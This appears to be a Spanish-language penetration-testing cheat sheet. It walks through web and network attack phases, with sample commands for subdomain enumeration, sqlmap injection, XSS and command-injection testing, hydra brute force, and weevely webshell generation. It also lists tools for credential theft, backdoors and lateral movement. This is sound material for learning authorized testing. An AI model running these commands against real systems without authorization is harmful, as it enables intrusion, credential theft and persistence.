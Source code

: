 # Pentesting en Aplicaciones Web
## Fase 1: Reconocimiento
### Recopilación de información pasiva
- Whois, theHarvester, Shodan para información del dominio y la infraestructura
- Amass y Subfinder para enumeración de subdominios
- Waybackurls para descubrir URLs antiguas

```
whois ejemplo.com
theHarvester -d ejemplo.com -b all
shodan search hostname:ejemplo.com

amass enum -d ejemplo.com 
subfinder -d ejemplo.com
waybackurls ejemplo.com
```

### Mapeo de la aplicación
- Wappalyzer para identificar tecnologías
- Nmap con scripts específicos para web
- Eyewitness para captura automatizada de screenshots

```
nmap -sV --script=http-* ejemplo.com
```
## Fase 2: Análisis y descubrimiento
### Enumeración de directorios y archivos
- Gobuster o Dirbuster para directorios
- Feroxbuster para enumeración recursiva
- ffuf para fuzzing avanzado de parámetros y endpoints

```
gobuster dir -u http://ejemplo.com -w /ruta/a/wordlist.txt
feroxbuster --url http://ejemplo.com -w /ruta/a/wordlist.txt
ffuf -w /ruta/a/wordlist.txt -u http://ejemplo.com/FUZZ # Fuzzing básico
ffuf -w /ruta/a/wordlist.txt -u http://ejemplo.com/?param=FUZZ # Fuzzing de parámetros
```
### Escáner de vulnerabilidades
- Nikto para escaneo general
- Nuclei con plantillas actualizadas
- Acunetix o Burp Suite Pro

```
nikto -h http://ejemplo.com
nuclei -u http://ejemplo.com -t nuclei-templates/
```
### Análisis de APIs
- Postman para pruebas manuales de APIs
- Arjun para descubrimiento de parámetros
- JWT_Tool para analizar tokens JWT
```
arjun -u http://ejemplo.com/api -m GET # Descubrimiento de parámetros GET
jwt_tool eyJ0eXAiOiJKV... [token] # Análisis básico de token JWT
```
## Fase 3: Explotación manual
### Interceptación y manipulación
- Burp Suite (Repeater, Intruder, Comparer):
	Proxy: Intercepta y modifica peticiones
	Repeater: Reenvía peticiones modificadas manualmente
	Intruder: Automatiza ataques de fuzzing
	Comparer: Compara respuestas para detectar diferencias
	Decoder: Codifica/decodifica datos
- OWASP ZAP con complementos adicionales
	Proxy manual: Intercepta peticiones
	Escaneo activo: Busca vulnerabilidades automáticamente
	Spider: Descubre URLs del sitio
	Fuzzer: Similar al Intruder de Burp
- Caido como alternativa más ligera

### Explotación específica
- SQLmap para inyecciones SQL automáticas
- XSStrike y Dalfox para Cross-Site Scripting
- NoSQLMap para bases de datos NoSQL
- Commix para inyección de comandos

```
sqlmap -u "http://ejemplo.com/page.php?id=1"  # Detección básica
sqlmap -u "http://ejemplo.com/page.php?id=1" --dbs  # Enumera bases de datos
sqlmap -u "http://ejemplo.com/page.php?id=1" -D nombre_db --tables  # Enumera tablas
xsstrike -u "http://ejemplo.com/page.php?id=1"  # Prueba de XSS
dalfox url http://ejemplo.com/page.php?id=1  # Prueba de XSS
commix --url="http://ejemplo.com/page.php?id=1"  # Prueba inyección de comandos
```
### Evaluación de autenticación y sesiones
- hydra para ataques de fuerza bruta
- CeWL para generar diccionarios personalizados
- Cookiebro o extensiones similares para manipulación de cookies

```
hydra -l admin -P wordlist.txt ejemplo.com http-post-form "/login:usuario=^USER^&password=^PASS^:Mensaje de error"
cewl http://ejemplo.com -d 2 -m 5 -w wordlist.txt  # Genera diccionario desde el contenido web
```

## Fase 4: Post-explotación web
### Escalada de privilegios
- SUDO_KILLER para problemas de permisos
- linPEAS/winPEAS si se consigue acceso al sistema
```
# Subir al servidor y ejecutar
./linpeas.sh  # Enumera posibles vectores de escalada de privilegios
```
### Persistencia y movimiento lateral
- Webshells como p0wny-shell, weevely
- Proxychains para pivoteo a redes internas

```
# Ejemplos de uso:
# Subir weevely a la máquina objetivo
weevely generate contraseña /ruta/shell.php  # Genera webshell
weevely http://ejemplo.com/ruta/shell.php contraseña  # Conecta a la shell

flameshot gui  # Inicia herramienta de captura interactiva

# Metasploit
use auxiliary/scanner/http/dir_scanner  # Escaneo de directorios
use auxiliary/scanner/http/brute_dirs  # Fuerza bruta de directorios
use auxiliary/scanner/http/http_login  # Fuerza bruta de login
```

# Caso 2: Pentesting de Máquinas y Sistemas

## Fase 1: Reconocimiento de infraestructura

### Escaneo de red
- Nmap con diversas técnicas de escaneo (-sS, -sV, -sC)
- Angry IP Scanner para redes locales
- Masscan para escaneos rápidos en redes grandes

### Enumeración de servicios
- enum4linux para sistemas Windows/Samba
- SNMPwal para dispositivos con SNMP habilitados
- Metasploit (módulos auxiliares de enumeración)

## Fase 2: Análisis de vulnerabilidades
### Escaneo automatizado
- OpenVAS como escáner integral
- Nessus para escaneos profundos
- Vulners (scripts de Nmap) para detección rápida

### Análisis específico por servicio
- SMBMap para recursos compartidos
- SSLyze o testssl.sh para configuraciones SSL/TLS
- CrackMapExec para entornos Windows

## Fase 3: Explotación del sistema
### Frameworks de explotación
- Metasploit Framework con sus módulos de exploit
- Empire para post-explotación PowerShell
- Covenant como C2 moderno

### Herramientas específicas
- Hashcat o John the Ripper para cracking de contraseñas
- Responder para ataques LLMNR/NBT-NS
- Mimikatz para extracción de credenciales

### Exploit personalizado
- SearchSploit para buscar exploits públicos
- Exploit-DB como referencia
- Immunity Debugger con mona.py como desarrollo de exploits

## Fase 4: Post-explotación y escalada
### Escalada de privilegios
- BeRoot para evaluación rápida
- PowerUp.ps1 para Windows
- Linux Smart Enumeration para Linux

### Persistencia y backdoors
- TheFatRat para generar backdoors
- Pupy RAT como RAT multiplataforma
- SharpC2 para entornos .NET

### Movimiento lateral
- Impacket (psexec.py y wmiexec.py)
- BloodHound para análisis de Active Directory
- Rubeus para ataques Kerberos
